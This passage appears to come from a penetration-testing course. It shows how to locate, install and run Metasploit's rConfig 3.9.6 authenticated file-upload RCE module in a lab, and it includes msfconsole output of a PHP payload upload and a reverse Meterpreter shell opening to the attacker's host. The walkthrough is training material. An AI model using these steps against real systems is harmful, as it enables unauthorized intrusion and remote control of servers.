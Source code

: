 One detail that can be overlooked when relying on MSF to find an exploit module for a specific application is the version of MSF. There may be useful exploit modules that are not installed on our system or just aren't showing up via search. In these cases, it's good to know that Rapid 7 keeps code for exploit modules in their [repos on github](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits). We could do an even more specific search using a search engine: `rConfig 3.9.6 exploit metasploit github`

This search can point us to the source code for an exploit module called `rconfig_vendors_auth_file_upload_rce.rb`. This exploit can get us a shell session on a target Linux box running rConfig 3.9.6. If this exploit did not show up in the MSF search, we can copy the code from this repo onto our local attack box and save it in the directory that our local install of MSF is referencing. To do this, we can issue this command on our attack box:

#### Locate

```shell
locate exploits

```

We want to look for the directories in the output associated with Metasploit Framework. On Pwnbox, Metasploit exploit modules are kept in:

`/usr/share/metasploit-framework/modules/exploits`

We can copy the code into a file and save it in `/usr/share/metasploit-framework/modules/exploits/linux/http` similar to where they are storing the code in the GitHub repo. We should also keep msf up to date using the commands `apt update; apt install metasploit-framework` or your local package manager. Once we find the exploit module and download it (we can use wget) or copy it into the proper directory from Github, we can use it to gain a shell session on the target. If we copy it into a file on our local system, make sure the file has `.rb` as the extension. All modules in MSF are written in Ruby.

* * *

## Using the rConfig Exploit and Gaining a Shell

In msfconsole, we can manually load the exploit using the command:

#### Select an Exploit

```shell
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce

```

With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

Use what you have learned in the module thus far to fill out the options associated with the exploit.

#### Execute the Exploit

```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

```